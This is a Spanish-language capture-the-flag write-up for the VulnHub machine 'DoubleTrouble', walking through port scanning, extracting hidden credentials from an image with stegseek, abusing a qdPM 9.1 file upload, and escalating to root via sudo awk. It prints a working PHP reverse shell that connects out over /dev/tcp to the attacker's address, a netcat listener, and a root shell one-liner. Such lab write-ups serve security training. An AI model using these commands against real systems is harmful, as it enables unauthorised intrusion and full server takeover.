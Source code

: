 ```yaml
---
title: DoubleTrouble
date: 2024-07-20
categories: [WRITEUPS, VulnHub]
tags: [stegseek, metadatos]  # TAG names should always be lowercase
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo de puertos con *NMAP*, para comprobar cuales de ellos están abiertos.

```bash
nmap -p- --open -T5 192.168.1.152 -n -Pn -v
```

![picture](/assets/images/vulnhub/double1.png){: w="600" h="300" }

Al no encontrar ningún puerto que nos interese para utilizar los scripts de *NMAP*, nos iremos a la página web para ver de que se trata.

Tenemos un panel de autenticación de qdPM 9.1, pero no encuentro nada interesante.

![picture](/assets/images/vulnhub/double2.png)

Realizando **Fuzzing** con **Gobuster**, encuentro las siguientes entradas.

```bash
gobuster dir -u http://192.168.1.152/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403
```

![picture](/assets/images/vulnhub/double3.png)

En la ruta ***/secret/*** encontramos la siguiente imagen.

![picture](/assets/images/vulnhub/double4.png){: w="600" h="300" }

Nos la vamos a descargar para ver si hubiera **metadatos**.

```bash
wget http://192.168.1.152/secret/doubletrouble.jpg
```

Con la herramienta ***stegseek***, que podemos encontrar en [**GitHub**](https://github.com/RickdeJager/stegseek), extraemos los **metadatos**.

![picture](/assets/images/vulnhub/double5.png)

Nos encuentra la *passphrase*, y otro archivo cuyo nombre original es "**creeds.txt**", y actualmente llamado "**doubletrouble.jpg.out**", el cual contiene credenciales.

![picture](/assets/images/vulnhub/double6.png)

---

## **Explotación**

A continuación, probaremos en el panel de autenticación con las credenciales encontradas en los metadatos de la imagen. 

Y obtenemos acceso dentro de la plataforma de **qdPM**.

![picture](/assets/images/vulnhub/double7.png)

Buscando en internet, encuentro una *vulnerabilidad* para esta versión, la cual podremos subir archivos **PHP** en la foto de los detalles de la cuenta.

Lo siguiente, será subir una **Reverse Shell**.

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/'Nuestra IP'/4444 0>&1'");
?>
```

![picture](/assets/images/vulnhub/double8.png)

Al subirlo nos saldrá un error, pero aun así se habrá subido correctamente.

![picture](/assets/images/vulnhub/double9.png)

Nos ponemos en escucha con **Ncat** con un **Listener**.

```bash
nc -nlvp 4444
```

Y nos dirigimos a la ruta de los archivos subidos de los usuarios, clicamos en la **Reverse Shell** para que se ejecute.

![picture](/assets/images/vulnhub/double10.png){: w="500" h="200" }

Y estaremos dentro del servidor como el usuario **www-data**.

![picture](/assets/images/vulnhub/double11.png)

---

## **Escalada de privilegios**

Buscando por el servidor, no encontramos ningún usuario más allá de **www-data** y **root**, ni nada interesante.

Listando los permisos de **SUDO** del usuario **www-data**, vemos que no necesita contraseña para el binario ***awk***.

![picture](/assets/images/vulnhub/double12.png)

En la web [**GTFOBins - awk**](https://gtfobins.github.io/gtfobins/awk/), nos muestra como escalar privilegios.

Ejecutamos el siguiente comando, y nos migrará al usuario **root**.

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```

![picture](/assets/images/vulnhub/double13.png)